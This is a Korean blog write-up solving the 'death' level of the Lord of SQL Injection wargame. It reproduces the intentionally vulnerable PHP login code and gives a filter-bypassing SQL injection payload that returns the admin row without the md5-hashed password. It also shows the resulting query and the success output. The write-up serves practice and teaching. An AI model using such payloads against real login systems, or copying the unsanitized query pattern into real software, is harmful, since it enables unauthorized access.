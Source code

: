 ```yaml
---
title: "[Lord of SQL Injection] LoS - death 문제풀이"
date: 2019-06-13
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


두 번째 문제는 `death`이다.
이 전 문제와 비슷해서 쉽게 풀 수 있었다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from prob_death where id='' and pw=md5('')
-----------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_death where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("death");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

이 전 문제와 동일하게 방화벽이 걸려 있으며, 다른점은 `pw`가 `md5`로 해싱된다는 것과 추출한 결과의 `id` 값이 `admin`이어야 한다는 것이다.
언뜻 보기에는 `admin`의 정확한 `pw` 값을 알아야 할 것 같다.
하지만 어찌어찌 방화벽을 우회해서 DB에 저장된 pw 값을 뽑아낸다 하더라도 그 값은 `md5`로 해싱 된 값이기 때문에 `pw`를 복구하기가 어렵다.
때문에 뒤의 `pw`를 검사하는 부분을 무시하도록 혹은 검증하지 않도록 공격을 수행해야 한다.
이를 위해 내가 생각한 쿼리는 다음과 같다.  

```plain
id=-1'<@=1 OR id<'guest' OR '&pw=a
```

이를 입력하면 완성되는 쿼리는 다음과 같다.  

```mysql
select id from prob_death where id='-1'<@=1 OR id<'guest' OR '' and pw=md5('a')
```

`where 절`을 살펴보면 조건은 크게 3개이다.
첫 번째로 `id='-1'<@1`은 이 전 문제에서 설명했다시피 `'-1'<@1`이 `NULL`이 되며 `id=NULL`이 되기 때문에 `거짓`이 된다.
이 때, 두 번째 조건은 `id<'guest'`이다.  `id`의 값이 `guest` 보다 작은 값을 찾게 되는데, 이는 테이블에 값이 `admin`과 `guest`만 있다고 가정하고 사용 한 조건이다.
알파벳 `a`는 `g`보다 값이 작기 때문에 `admin`의 값은 `guest`보다 작다.
만약 테이블에 `admin`과 `guest`의 두 값만 있다면, `id<'guest'`의 결과는 당연히 `admin`이 될 것이다.
여기서 두 번째 조건이 참이 되었기 때문에 뒤의 `'' and pw=md5('a')`는 무시하게 된다.
해당 쿼리를 문제에 전달하면 아래와 같이 `admin` 값을 추출하며 문제를 풀 수 있다.  

```php
-------------------------------------------------------------------------------------------
query : select id from prob_death where id='-1'<@=1 OR id<'guest' OR '' and pw=md5('a')
-------------------------------------------------------------------------------------------

DEATH Clear!
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_death where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("death");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

---

```plain
DEATH Clear!!
```